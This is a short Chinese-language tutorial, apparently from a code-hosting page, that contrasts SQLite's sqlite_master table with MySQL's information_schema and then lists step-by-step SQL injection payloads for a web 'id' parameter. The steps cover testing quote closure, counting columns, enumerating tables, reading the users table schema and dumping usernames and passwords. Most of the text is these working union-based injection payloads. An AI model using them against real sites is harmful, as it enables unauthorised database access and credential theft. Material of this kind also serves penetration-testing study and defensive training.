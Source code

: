 
## **sqlite和mysql的不同**

熟悉MySQL数据库的人都知道，MySQL中有一个名为information_schema的系统库，里面包含了所有MYSQL数据库中库名，表名，列名的信息，那么SQLITE数据库有没有呢？
答案当然是没有的。对于SQLITE而言，并没有库的概念，而是直接对象就是表了，所以SQLITE没有系统库，但是它是存在系统表的，这个表名为sqlite_master

sqlite 注入的示例payload：
```
按照正常的sql注入步骤列出每一步的payload

第一步： 跟mysql一样 先试 sql语句的闭合方式
?id=' //报错
?id=' --+ //不报错

第二步： 测字段数
?id=' order by 3 --+ //不报错
?id=' order by 4 --+ //报错

第三步：可以查看一下sqlite的版本信息（没什么用），或者 直接查看数据库中的所有的表名
?id=' union select 1,2,sqlite_version() --+
?id=' union select 1,2,group_concat(tbl_name) from sqlite_master where type='table' --+

第四步：通过查询创建表的sql语句，来得到表的结构
?id=' union select 1,2,sql from sqlite_master where type='table' and tbl_name='users' --+

第五步：脱库
?id=' union select 1,group_concat(username),group_concat(password) from users limit 0,1 --+
```